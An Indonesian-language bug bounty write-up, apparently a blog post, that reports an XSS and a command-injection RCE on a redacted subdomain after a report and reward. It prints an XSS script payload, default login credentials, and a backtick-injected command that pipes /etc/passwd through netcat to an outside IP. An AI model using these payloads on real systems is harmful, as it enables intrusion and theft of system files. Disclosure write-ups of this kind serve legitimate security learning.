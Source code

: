 ```yaml
---
layout: post
title: "RCE and XSS On Private Program Cyber Army ID"
date: 2019-02-14
tags: [ "XSS", "RCE"]
categories: [ "Bug Bounty"]
---
```


## Reconnaissance 
Pada tahap reconnaissance,saya menggunakan nmap dengan perintah
`nmap sub.[redacted].id`

Disana terdapat beberapa port yang open, saya tertarik dengan port 8010. Pada saat tulisan ini dibuat saya coba scan lagi ternyata sudah filtered.

 ![](/images/bugbounty/net/1.png)

Saat saya buka sub.[redacted].id:8010, disana terdapat form login yang diketahui credentialnya menggunakan user dan password public:public. Disana terdapat beberapa menu (lupa screenshot). 

## XSS via POST Request
Untuk celah XSS ini berdampak pada 2 fungsi/menu:
- Menu dblist
- Menu dnsbse

Saya tertarik dengan fungsi search yg ada di menu dnsbse, disana ada form search yang merequest google search engine. Saya coba searcing "test", ternyata inputan kita ditampilkan di browser,hmmmm... Langsung terpikir untuk input payload XSS, dengan mengirim payload XSS sejuta ummat `"><script>alert("p00w")</script>` ternyata payload dirender dengan baik.

### POC 
- Script : https://pastebin.com/raw/zZN1pfSY

 ![](/images/bugbounty/net/2.png)


## Remote Code Execution
Masih ingat menu dnsbse? Tadi yang kita bahas kalau fungsi dnsbse juga merequest search engine google dan menampilkan hasilnya disana. Saya kira kalau fungsi dnsbse itu pake curl buat request ke server googlenya,asumsinya kira-kira seperti ini:
`shell_exec('curl {website with request}')`

Saya pikir ini bisa diexploitasi dengan SSRF (Server Side Request Forgery);

 ![](/images/bugbounty/net/3.png)

setelah mencoba beberapa payload SSRF, ternyata zonk wwkwkw `>_<` 
Saya sambil baca-baca referensi, akhirnya ketemu cara bypass stringnya hanya menggunakan backtick, sehingga kita dapat menjalankan perintah shell pada `shell_exec` tadi. 

Saya masukin request ke repeater di burp, lalu saya masukin payload \`cat /etc/passwd | nc XXX.199.221.101 9091\` pada parameter server, dan didapatkan result:

 ![](/images/bugbounty/net/4.png)

 ![](/images/bugbounty/net/5.png)

- 12 February Send Report
- 13 February Validation
- 14 February disclose
- Rewarded


## Reference
- [Getting a RCE — CTF Way
](https://medium.com/@uranium238/getting-a-rce-ctf-way-2fd612fb643f)
- [Cross Site Scripting (XSS)
](https://owasp.org/www-community/attacks/xss/)
